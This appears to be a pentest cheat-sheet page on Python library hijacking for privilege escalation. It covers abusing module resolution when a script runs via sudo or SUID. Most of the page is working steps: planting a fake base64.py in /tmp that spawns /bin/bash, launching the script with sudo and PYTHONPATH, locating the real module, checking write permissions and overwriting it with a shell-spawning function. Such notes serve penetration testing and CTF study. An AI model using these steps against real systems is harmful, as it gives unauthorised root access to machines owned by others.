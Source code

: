   When you are allowed to execute a **Python script with elevated privileges** (via `sudo`, `SUID`, etc.) and that script **imports external modules**, you can exploit Python’s **module resolution order** to execute arbitrary code.
  
  
  ### Prerequisites  
  * You can **run a Python script as root or another privileged user**:
  * The script **imports external modules**, such as `os`, `random`, `base64`, etc.
  
  ---
  
  ### (if `sudo -l` had returned `SETENV`):
  
  ```bash
  echo 'def b64encode(x): import os; os.system("/bin/bash")' > /tmp/base64.py
  ```
  ```bash
  sudo PYTHONPATH=/tmp sudo -E /usr/bin/python3 /opt/script.py
  ```

  ---

  
  ## Exploitation Steps
  
  ### 1. Identify Imported Modules
  
  Check which modules are imported in the script:

  ```bash
  cat script.py
  # Output:
  import base64
  import random
  import os
  ```
  
  ### 2. Locate the Original Module
  
  Use Python to locate where the target module resides (ex: base64):
  
  ```bash
  python3 -c 'import base64; print(base64.__file__)'
  ```

  
  ### 3. Check for Write Permissions on the Original File
  
  ```bash
  ls -l /usr/lib/python3.7/base64.py
  ```
  
  If so, modify it directly:
  
  ```python
  # base64.py
  def b64encode(a):
      import os
      os.system("/bin/bash")
  ```

